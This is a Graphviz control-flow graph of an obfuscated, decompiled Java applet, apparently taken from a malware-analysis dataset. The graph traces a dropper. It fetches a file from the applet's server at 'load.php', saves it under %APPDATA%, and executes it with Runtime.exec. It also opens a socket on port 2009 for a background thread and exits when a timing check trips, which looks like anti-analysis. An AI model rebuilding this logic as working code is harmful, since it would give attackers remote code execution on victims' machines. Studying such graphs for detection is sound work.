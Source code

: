 digraph "" {
    "r0 := @this: Java"
    "new java.net.Socket"
    "r0 := @this: Java"->"new java.net.Socket";
    "dup1.r"
    "new java.net.Socket"->"dup1.r";
    "store.r r3"
    "dup1.r"->"store.r r3";
    "goto staticinvoke <java.lang.System: long currentTimeMillis()>"
    "store.r r3"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
    "staticinvoke <java.lang.System: long currentTimeMillis()>"
    "goto staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "store.l l4"
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"store.l l4";
    "staticget <KLuZFeYQjm: boolean oyvuMMfkDs>"
    "store.l l4"->"staticget <KLuZFeYQjm: boolean oyvuMMfkDs>";
    "ifeq staticget <KLuZFeYQjm: boolean VqdVAlQONP>"
    "staticget <KLuZFeYQjm: boolean oyvuMMfkDs>"->"ifeq staticget <KLuZFeYQjm: boolean VqdVAlQONP>";
    "ifeq staticget <KLuZFeYQjm: boolean VqdVAlQONP>"->"staticget <KLuZFeYQjm: boolean oyvuMMfkDs>";
    "push 1"
    "staticget <KLuZFeYQjm: boolean oyvuMMfkDs>"->"push 1";
    "ifcmpne.b return"
    "push 1"->"ifcmpne.b return";
    "staticget <KLuZFeYQjm: boolean VqdVAlQONP>"
    "ifcmpne.b return"->"staticget <KLuZFeYQjm: boolean VqdVAlQONP>";
    "staticget <KLuZFeYQjm: boolean VqdVAlQONP>"->"push 1";
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"
    "push 1"->"ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>";
    "push \"APPDATA\""
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "staticinvoke <Java: java.lang.String zNxmabSdWI()>"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"staticinvoke <Java: java.lang.String zNxmabSdWI()>";
    "staticput <Java: java.lang.String eNeqeGMACh>"
    "staticinvoke <Java: java.lang.String zNxmabSdWI()>"->"staticput <Java: java.lang.String eNeqeGMACh>";
    "new java.net.URL"
    "staticput <Java: java.lang.String eNeqeGMACh>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "new java.lang.StringBuilder"
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r0"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "virtualinvoke <Java: java.net.URL getCodeBase()>"
    "load.r r0"->"virtualinvoke <Java: java.net.URL getCodeBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <Java: java.net.URL getCodeBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"load.php\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"load.php\"";
    "push \"load.php\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"store.r r3";
    "staticget <Java: java.lang.String eNeqeGMACh>"
    "store.r r3"->"staticget <Java: java.lang.String eNeqeGMACh>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "staticget <Java: java.lang.String eNeqeGMACh>"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r0";
    "load.r r3"
    "store.r r0"->"load.r r3";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "load.r r3"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r3";
    "new java.io.FileOutputStream"
    "store.r r3"->"new java.io.FileOutputStream";
    "store.r $r22"
    "new java.io.FileOutputStream"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "store.r r7"->"load.r r3";
    "load.r r7"
    "load.r r3"->"load.r r7";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i i5"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i5";
    "store.i i5"->"staticget <KLuZFeYQjm: boolean VqdVAlQONP>";
    "staticget <KLuZFeYQjm: boolean VqdVAlQONP>"->"push 1";
    "ifcmpne.b load.r r3"
    "push 1"->"ifcmpne.b load.r r3";
    "load.i i5"
    "ifcmpne.b load.r r3"->"load.i i5";
    "ifle load.r r3"
    "load.i i5"->"ifle load.r r3";
    "ifle load.r r3"->"load.r $r22";
    "load.r $r22"->"load.r r7";
    "push 0"
    "load.r r7"->"push 0";
    "push 0"->"load.i i5";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i i5"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"load.r r3";
    "load.r r3"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i5";
    "goto load.i i5"
    "store.i i5"->"goto load.i i5";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.r r0";
    "goto return"
    "store.r r0"->"goto return";
    "return"
    "goto return"->"return";
    "ifle load.r r3"->"load.r r3";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r3"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r22";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r22"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"goto return";
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "load.l l4"
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"load.l l4";
    "sub.l"
    "load.l l4"->"sub.l";
    "push 1000L"
    "sub.l"->"push 1000L";
    "div.l"
    "push 1000L"->"div.l";
    "push 10L"
    "div.l"->"push 10L";
    "cmp.l"
    "push 10L"->"cmp.l";
    "ifne staticget <KLuZFeYQjm: boolean oyvuMMfkDs>"
    "cmp.l"->"ifne staticget <KLuZFeYQjm: boolean oyvuMMfkDs>";
    "ifne staticget <KLuZFeYQjm: boolean oyvuMMfkDs>"->"push 1";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 1"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto staticget <KLuZFeYQjm: boolean oyvuMMfkDs>"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto staticget <KLuZFeYQjm: boolean oyvuMMfkDs>";
    "dup1.r"->"store.r r3";
    "staticinvoke <Java: java.lang.String yMfUErHQHZ()>"
    "dup1.r"->"staticinvoke <Java: java.lang.String yMfUErHQHZ()>";
    "push 2009"
    "staticinvoke <Java: java.lang.String yMfUErHQHZ()>"->"push 2009";
    "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"
    "push 2009"->"specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>";
    "staticput <Java: java.net.Socket jqOdKhApgw>"
    "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"->"staticput <Java: java.net.Socket jqOdKhApgw>";
    "new java.lang.Thread"
    "staticput <Java: java.net.Socket jqOdKhApgw>"->"new java.lang.Thread";
    "new java.lang.Thread"->"dup1.r";
    "new KLuZFeYQjm"
    "dup1.r"->"new KLuZFeYQjm";
    "new KLuZFeYQjm"->"dup1.r";
    "staticget <Java: java.net.Socket jqOdKhApgw>"
    "dup1.r"->"staticget <Java: java.net.Socket jqOdKhApgw>";
    "specialinvoke <KLuZFeYQjm: void <init>(java.net.Socket)>"
    "staticget <Java: java.net.Socket jqOdKhApgw>"->"specialinvoke <KLuZFeYQjm: void <init>(java.net.Socket)>";
    "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"
    "specialinvoke <KLuZFeYQjm: void <init>(java.net.Socket)>"->"specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>";
    "staticput <Java: java.lang.Thread mFRUkUabgx>"
    "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"->"staticput <Java: java.lang.Thread mFRUkUabgx>";
    "staticget <Java: java.lang.Thread mFRUkUabgx>"
    "staticput <Java: java.lang.Thread mFRUkUabgx>"->"staticget <Java: java.lang.Thread mFRUkUabgx>";
    "virtualinvoke <java.lang.Thread: void start()>"
    "staticget <Java: java.lang.Thread mFRUkUabgx>"->"virtualinvoke <java.lang.Thread: void start()>";
    "virtualinvoke <java.lang.Thread: void start()>"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
}
